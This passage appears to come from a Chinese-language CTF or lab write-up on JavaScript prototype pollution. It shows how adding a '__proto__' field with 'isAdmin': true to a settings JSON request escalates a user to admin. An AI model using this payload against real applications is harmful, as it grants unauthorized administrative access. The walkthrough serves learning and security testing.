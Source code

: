 ```html
        } catch (error) {
             statusEl.textContent = '请求失败或JSON无效: ' + error.toString();
        }
    }
</script>
```

可以发现参数`isAdmin`，应用会根据这个参数判断用户是否为admin

更新设置

![image-20250719232920659](assets/image-20250719232920659.png)

> **可以通过 `__proto__` 属性访问其原型（`prototype`），如果向对象中添加 `__proto__` 字段，会修改该对象的原型链，影响所有继承自该原型的对象**

```js
{"settings":{"theme":"1","language":"1"}}
```

污染 `settings` 对象的原型

```js
{"settings":{"theme":"a","language":"a","__proto__":{"isAdmin":true}}}
```

![image-20250719233638962](assets/image-20250719233638962.png)
